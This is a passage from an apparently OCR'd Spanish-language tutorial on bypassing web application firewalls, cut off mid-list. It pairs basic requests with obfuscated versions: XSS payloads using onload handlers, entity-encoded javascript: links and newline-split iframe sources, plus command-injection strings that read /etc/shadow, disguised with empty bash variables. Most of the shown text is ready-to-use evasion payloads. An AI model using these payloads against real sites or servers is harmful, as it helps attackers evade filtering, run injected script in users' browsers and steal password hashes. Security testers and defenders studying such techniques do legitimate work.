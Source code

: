 **Ofuscar carga útil:**

> <script>+-+-1-+-+confirm()</script>

**Solicitud básica:**

> <BODY onload=confirm()>

**Ofuscar carga útil:**

> <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()>

**Solicitud básica:**

> <a href=javascript;alert()>ClickMe

**Técnica omitida:**

> <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe

### **11. Técnica de saltos de línea**

Muchos WAF con filtrado basado en expresiones regulares bloquean eficazmente muchos intentos. La técnica de saltos de línea (CR y LF) puede romper la expresión regular del firewall y omitir cosas.

**Solicitud básica:**

> <iframe src=javascript:confirm(hacker)">

**Ofuscar carga útil:**

> <iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(hacker)">

### **12. Técnica de variables no inicializadas**

Los filtros basados ​​en expresiones regulares incorrectos se pueden evadir con variables bash no inicializadas. Dicho valor es igual a nulo y actúa como cadenas vacías. Bash y Perl permiten este tipo de interpretaciones.

Ofuscación de primer nivel: normal

**Solicitud básica:**

> /bin/cat /etc/shadow

**Ofuscar carga útil:**

> /bin/cat$u /etc/shadow$u

Ofuscación de segundo nivel: basada en la posición

**Solicitud básica:**

> /bin/cat /etc/shadow

**Ofuscar carga útil:**

> $u/bin$u/cat$u $u/etc$u/shadow$u

Ofuscación de tercer nivel: caracteres aleatorios

**Solicitud básica:**
